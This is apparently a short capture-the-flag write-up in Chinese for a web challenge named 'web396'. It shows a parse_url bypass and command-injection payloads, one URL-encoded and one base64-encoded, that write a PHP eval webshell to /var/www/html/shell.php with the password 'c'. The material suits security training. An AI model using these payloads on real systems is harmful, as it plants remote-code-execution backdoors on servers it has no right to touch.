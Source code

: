 # web396
![](vx_images/514532938448358.png)
shell_exec无回显
写入一句话木马
parse_url绕过
![](vx_images/338055200442354.png)
尝试传入
```
url=http://%3C%3Fphp%20eval(%24_POST%5B1%5D)%3B%3F%3E/var/www/html/shell.php
```
无法访问
base64编码
```
http://PD9waHAgZXZhbCgkX1BPU1RbJ2MnXSk7Pz4|base64 -d/var/www/html/shell.php
```
密码c